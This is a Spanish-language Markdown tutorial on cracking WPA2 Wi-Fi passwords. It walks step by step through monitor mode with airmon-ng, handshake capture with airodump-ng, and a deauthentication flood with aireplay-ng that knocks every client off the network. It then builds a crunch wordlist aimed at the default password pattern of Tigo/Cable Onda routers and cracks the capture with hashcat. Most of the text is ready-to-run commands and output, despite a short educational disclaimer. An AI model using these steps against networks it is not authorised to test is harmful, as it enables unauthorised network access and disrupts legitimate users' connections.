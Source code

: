 # Wi-Fi Cracking

DISCLAIMER

Esta informacion no busca promover los ataques a redes que no sean de tu propiedad lo que se busca es tomarlo del punto educacional, que les ayude un poco a comprender como es un ataque de wireless y que nos ayude a protegernos.

# Procedimiento

Para este ataque utilizaremos la tecnica de captura de handshake y este archivo lo pasaremos al hashcat para poder desencriptar el hash a traves de un diccionario que crearemos con CRUNCH. 

Utilizaremos tres aplicaciones para poder obtener el password [Aircrack-ng](http://aircrack-ng.org/)/[Hashcat](http://hashcat.net/). Crunch https://github.com/jim3ma/crunch

## Comencemos

Para este tutorial necesitaremos cualquiera de estas distribuciones de linux:

-Kali Linux https://www.kali.org/)
-Parrot OS https://www.parrotsec.org/
-Wifislax https://www.wifislax.com/

# Hardware
	
- Necesitaremos una interfaz de red que sea compatible con [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode)
- Pueden entrar a ese link y verificar que tarjetas de red son compatibles
- (http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)

### Monitor Mode

Lo primero que tenemos que hacer es colocar nuestra interfaz de red en modo monitor:

```bash
airmon-ng start "NUESTRA INTERFAZ"
```

Normalmente siempre lleva el nombre de `wlan0` pero para verificar cual es nombre solo escribe en una terminal `iwconfig`:

### Ahora nos ponemos en modo escucha

```bash
airodump-ng wlan0
```

- Veran algo similar como esto

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49                                         
                                                                                                                                              
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 14:91:82:F7:52:EB  -66      205       26    0   1  54e  WPA2             COWIFI241135420/9                                                 
```

- De esta ventana hay que anotar el bssid `14:91:82:F7:52:EB` y el canal `1`

### Poner en modo escucha el airodump

- Para esto solo tendremos que especificarle al airodump-ng en que red quiero que se enfoque y el nombre del archivo que quiero guardar toda esta informacion. con `-c` especificamos el canal `--bssid` insertamos el bssid y con `-w` nombramos el el archivo donde queremos que se almacene el handshake y por ultimo le especificamos nuestra interfaz de red.

```
airodump-ng -c 'CANAL' --bssid 'bssid' -w 'nombre del archivo' wlan0mon

```
```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
14:91:82:F7:52:EB  -47   0      140        0    0   1  54e  WPA2 CCMP   PSK  COWIFI241135420/9  
```
-Ahora en otra terminal paralela a esta escribimos el siguente codigo
```
aireplay-ng --deauth 0 -a 'bssid' wlan0mon

```
-esto lo que hara es desautenticar a todos los disposivos y cuando se intente conectar capturaremos el handshake


-No pueden cerrar esta terminal hasta que en la parte superior derecha apareza este mensaje `[ WPA handshake: 14:91:82:F7:52:EB`.

- Luego cuando tengan este archivo '.cap' lo pasaremos a nuestro windows y entraremos a este link https://hashcat.net/cap2hashcat/ y comvertimos nuestro archivo .cap a .22000 que es el formato que lee hashcat.

# Creacion de diccionario

-Las redes tigo o cable onda tienen un particularidad y es que todas comienza con "WiFi-(y una serie de 8 numeros)" Con crunch podemos crear un diccionario especial para esto solo necesitaremos copiar estos comandos
```
crunch 13 13 -t WiFi-%%%%%%%% -o DiccionarioTIGO.txt

```

### Crack the Network Password

-Ahora en nuestro windows abriremos la consola y nos pocisionaremos donde tengamos descargado el hashcat luego cuando estemos adentro escribimos este codigo
```
hashcat -a 0 -m 22000 Nombre_del_hash.22000 diccionariotigo.txt --show

```

# LISTO
- En menos de 5min pudimos saber el password de una red Tigo
              
